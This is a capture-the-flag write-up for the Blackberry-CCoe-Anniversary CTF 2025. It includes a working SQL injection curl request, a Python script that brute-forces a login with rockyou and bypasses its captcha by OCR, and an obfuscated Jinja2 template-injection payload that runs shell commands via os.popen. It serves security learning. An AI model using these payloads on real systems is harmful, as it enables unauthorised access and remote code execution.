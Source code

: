 ```yaml
---
title: "Blackberry-CCoe-Anniversary CTF 2025 - Writeup"
date: 2025-05-09
categories: [CTF, Writeup]
tags: [Reverse Engineering, web]
image: assets/writeups/BBCTF/BBCTF.png
---
```


## web

## Challenge name : SQLI Series - 1

**DESCRIPTION**
This store is only for my customers to visit and do online purchase. There are Apple, Banana and Cherry. Nothing else right?

First, we were given a Dockerfile to set up the challenge on our own server, along with a link to the web-based challenge, which had a fruit-themed interface. The first thing I tried was entering a - character in the input field to check for a SQL error, since the challenge name hinted at an SQL injection. However, instead of an error, the response I got was simply "Forbidden".

![img](assets/writeups/BBCTF/BBCTF1.png)
![img](assets/writeups/BBCTF/BBCTF2.png)

After that, I downloaded the Dockerfile and set it up on my own server. While inspecting the setup, I found a hint  the application only accepts requests with a specific User-Agent header: UMCS-CTF.

![img](assets/writeups/BBCTF/BBCTF3.png)

Next, I asked ChatGPT what to do with all the findings I had so far, and it provided me with a potential payload to try: 

```sh
  curl -X POST http://157.180.92.15:5001/ \
  -H "User-Agent: UMCS-CTF" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "search=%' UNION SELECT 1, (SELECT flag_value FROM flag) -- -"
```
And get the flag
 
 ![img](assets/writeups/BBCTF/BBCTF4.png)

 the flag is bbctf{user_agent_is_not_enough_to_prevent_sqli!}


## Challenge Name : Sekure Note

**Description** I dont think you are able to get the flag. The captcha is too strong :(

Note: This challenge's login is meant to be bruted. Check source code for which wordlist to use :)

We were given a login link and a Dockerfile to set up the challenge on our own server. After setting it up, I opened the app.py file to look for any hints. There, I found hardcoded credentials  `username: admin` and `password: RANDOMPASSWORD` along with a comment referencing `#rockyou`, suggesting that the password can be brute-forced. If the login is successful, it redirects the user to the /admin/note page.

![img](assets/writeups/BBCTF/BBCTF5.png)

Next, I asked ChatGPT to help brute-force the login page using the username admin and passwords from the rockyou.txt wordlist. The login page also had a captcha, so GPT used OCR (Optical Character Recognition) to bypass it. Eventually, the correct password was found: peaches. Here's the script used:
 

```python
import requests
from PIL import Image
from io import BytesIO
import pytesseract

# Optional (kalau kau pakai Windows)
# pytesseract.pytesseract.tesseract_cmd = r'C:\Program Files\Tesseract-OCR\tesseract.exe'

url = 'http://157.180.92.15:7999/'
login_url = f'{url}/'  # or /login kalau ada
rockyou_path = 'rockyou.txt'  # make sure file ada

s = requests.Session()

# Step 1: Get login page and captcha image
r = s.get(login_url)
# Parse captcha image URL
from bs4 import BeautifulSoup
soup = BeautifulSoup(r.text, 'html.parser')
captcha_img_tag = soup.find('img')  # or more specific if needed
captcha_src = captcha_img_tag['src']
if not captcha_src.startswith('http'):
    captcha_src = url + captcha_src

# Step 2: Download captcha image
captcha_img_resp = s.get(captcha_src)
captcha_img = Image.open(BytesIO(captcha_img_resp.content))

# Step 3: OCR the captcha
captcha_text = pytesseract.image_to_string(captcha_img).strip()
print('[*] OCR Captcha:', captcha_text)

# Step 4: Bruteforce with rockyou.txt
for pw in open(rockyou_path, 'r', encoding='latin-1'):
    pw = pw.strip()
    data = {
        'username': 'admin',
        'password': pw,
        'captcha': captcha_text
    }
    res = s.post(login_url, data=data, allow_redirects=False)

    # Check login success
    if res.status_code == 302 and '/admin/notes' in res.headers.get('Location', ''):
        print(f'[+] SUCCESS! Password: {pw}')
        break
else:
    print('[-] Password not found in rockyou.txt')
```

After logging in, I was redirected to the admin notes page. To test for SSTI (Server-Side Template Injection), I entered the payload `[{ 7*7 }]`. If the output returns 49, it confirms that the template engine is evaluating the expression  which means SSTI is present.

Here’s the result:
![img](assets/writeups/BBCTF/BBCTF6.png)

Next, I began crafting a payload to exploit the SSTI vulnerability. Since the app was using HTML with Jinja2, I tested several variations. The one that worked for me was:

{% raw %}
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls ../cat flag.txt')|attr('read')()}}
```
{% endraw %}

![img](assets/writeups/BBCTF/BBCTF7.png)

The Flag Is BBCTF{c4ptcha_4nd_sst1_m4st3r!}

## Reverse Engineering

## Challenge Name : Trust-issue

Given an elf file the first step I do is check file type and use strings if there any important things . Got base 64 but it just a bait for the next step 

![img](assets/writeups/BBCTF/BBCTF8.png)

![img](assets/writeups/BBCTF/BBCTF9.png)

When I decode it just got the fake flag . Next we use `ida` to dissasamble it decompyle it and see the pseudocode .There's a lot of main so you need to find the real main and follow the flow. Upon analyze it I found there is hexString the input before user enter the input copy it and put it on llm with a proper prompt and it give a python script . Run the script and we get the flag .

![img](assets/writeups/BBCTF/BBCTF10.png)

![img](assets/writeups/BBCTF/BBCTF11.png)

Here is the Flag : bbctf{N0t_A11_3ntry_St4rts_Fr0m_M41N}

![img](assets/writeups/BBCTF/BBCTF13.png)








